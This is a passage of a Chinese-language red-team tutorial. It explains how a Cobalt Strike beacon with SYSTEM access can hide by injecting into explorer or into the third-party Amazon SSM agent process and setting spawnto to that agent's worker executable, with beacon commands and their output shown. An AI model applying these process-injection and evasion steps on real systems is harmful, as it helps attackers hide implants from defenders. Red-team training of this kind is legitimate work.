 
根据我们想要实现的目标，我们可以选择两条路径：

1. inject一个用户进程，或者explorer，代价是可能从高完整性的shell降级到中等完整性

```
inject 4628 x64 smb
```

所以接下来，我们需要退出SYSTEM会话，并从cbridges链接到作为amoss运行的会话。 我们可以保留PPID，因为进程是explorer的一个子节点，然后将spawnto设置为用户可能执行的东西。（So next, we need to exit the SYSTEM session and link to the session running as amoss from cbridges.  We can leave the PPID since it's ok for processes to be a child of explorer, and then set the spawnto to something the user might execute.）

2. 如果我们想要在会话0中维护我们的系统级访问。对我来说最有意义的策略是将自己隐藏为现有服务可执行文件的子文件
其中大部分是 Services.exe (the "Services and Controller app")的子服务，绝大多数默认 Windows 服务以 svchost.exe 运行。其中许多还将产生自己的子代，如 SearchApp.exe, taskhostw.exe, ctfmon.exe 等


这些核心 Windows 进程的“问题”在于它们受到保护，因此您不能随意打开它们的句柄，即使当前用户是system

```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> inject 840 x64 smb
[-] could not open process 840: 5
[-] could not connect to pipe
```

所以一个可靠的方案是找到第三方服务，因为他们往往会有较低的保护水平。让我们以 Amazon SSM 代理为例来看一看

1683452738726.jpg


amazon-ssm-agent.exe 是 AmazonSSMAgent  服务的服务可执行文件

```
SERVICE_NAME: AmazonSSMAgent
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Amazon SSM Agent
        DEPENDENCIES       :
```

此服务作为子代产生 ssm-agent-worker.exe。这可能是一个很好的选择——我们可以注入到代理进程中，并将衍生程序设置为 worker 可执行文件

```
beacon> inject 2796 x64 smb
[+] established link to child beacon: 10.10.120.75

beacon> spawnto x64 %ProgramFiles%\Amazon\SSM\ssm-agent-worker.exe
```

1683452807672.jpg
